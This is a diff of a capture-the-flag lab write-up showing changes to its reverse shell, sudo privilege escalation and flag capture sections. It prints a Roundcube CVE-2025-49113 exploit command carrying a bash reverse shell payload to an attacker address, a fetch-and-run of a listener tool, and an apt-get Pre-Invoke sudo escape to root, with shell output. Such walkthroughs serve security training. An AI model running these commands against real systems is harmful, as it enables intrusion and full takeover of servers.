

Before and after one commit to donmedfor/mybitbyte, a Markdown page: writeups/aftermatch/aftermatch.md, the part around one of its changes. Shown at 93% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/writeups/aftermatch/aftermatch.md
+++ b/writeups/aftermatch/aftermatch.md
@@ -168,12 +228,12 @@ A timing test (`sleep 5`) confirmed code execution.
 
 ### 3.5 Reverse Shell
 
-```bash
-# Attacker listener
-nc -lvnp 443
+```
+# Attacker penelope listener
+wget -q https://raw.githubusercontent.com/brightio/penelope/refs/heads/main/penelope.py && python3 penelope.py
 ```
 
-```bash
+```
 python3 CVE-2025-49113.py http://10.1.32.43/roundcube kali '<password>' \
   "bash -c 'bash -i >& /dev/tcp/10.200.94.4/443 0>&1'"
 ```
@@ -181,7 +241,18 @@ python3 CVE-2025-49113.py http://10.1.32.43/roundcube kali '<password>' \
 **Shell as `www-data`:**
 
 ```
-www-data@kali:/var/www/roundcube$
+┌─[donmed@parrot]─[~/LAB/Hacksmarter/Aftermath/CVE-2025-49113]─[10.200.94.4]
+└──╼ $ wget -q https://raw.githubusercontent.com/brightio/penelope/refs/heads/main/penelope.py && python3 penelope.py
+[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 10.31.237.126 • 10.200.94.4
+➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
+[+] [New Reverse Shell] => kali 10.1.32.43 Linux-x86_64 👤 www-data(33) 😍️ Session ID <1>
+[+] ⭐ Agent deployed via /usr/bin/python3
+[+] Interacting with session [1] • PTY • Menu key F12 ⇐
+[+] Session log: /home/donmed/.penelope/sessions/kali~10.1.32.43-Linux-x86_64/2026_09_12-10_54_06-625-www-data_33.log
+──────────────────────────────────────────────────────────────────────────────
+www-data@kali:/$ id
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+www-data@kali:/$
 ```
 
 ---
@@ -197,8 +268,15 @@ sudo -l
 **Output:**
 
 ```
+www-data@kali:/bin$ sudo -l
+Matching Defaults entries for www-data on kali:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
+    use_pty
+
 User www-data may run the following commands on kali:
-    (root) NOPASSWD: apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
+    (ALL) NOPASSWD: /usr/bin/apt-get
+
 ```
 
 ### 4.2 Exploit
@@ -212,16 +290,18 @@ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
 **Root shell:**
 
 ```
+www-data@kali:/bin$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
 # id
 uid=0(root) gid=0(root) groups=0(root)
+
 ```
 
 ### 4.3 Capture Flags
 
-```bash
+```
 cat /root/root.txt
-cat /home/kali/user.txt
-cat /home/maria/user.txt
+cat /usr/user.txt
+
 ```
 
 ---
````
Also changed, not shown: other parts of writeups/aftermatch/aftermatch.md (+100 -40 lines).
